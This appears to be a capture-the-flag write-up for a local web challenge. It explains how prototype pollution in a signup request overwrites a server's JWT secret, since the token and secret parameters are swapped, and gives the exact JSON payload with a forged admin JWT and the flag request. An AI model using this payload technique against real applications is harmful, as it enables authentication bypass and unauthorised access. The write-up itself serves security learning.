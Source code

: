 Notice that the token and secret have been mixed up.
This effectively means that you control the secret, however cannot control the token which is supposedly `nanoid(16)` at first glance.

Notice that you can perform prototype pollution and control `config.secret`, which replaces `nanoid(16)`.

1. Forge JWT token (with arbitrary secret) to pollute into config.secret
2. Set secret(token parameter as they have been intentionally mixed up) to the same secret used just now
3. profit

http://localhost:8080/signup
```json
{
    "user": "{\"__proto__\": {\"secret\": \"eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkpvaG4gRG9lIiwiaWF0IjoxNTE2MjM5MDIyLCJhZG1pbiI6dHJ1ZX0.orVYmmSMjSfa_rLPqA086kYRj02obCWPsrnlZzTTUmE\"}}"
}
```

http://localhost:8080/flag
```json
{
    "token": "bruh"
}
```
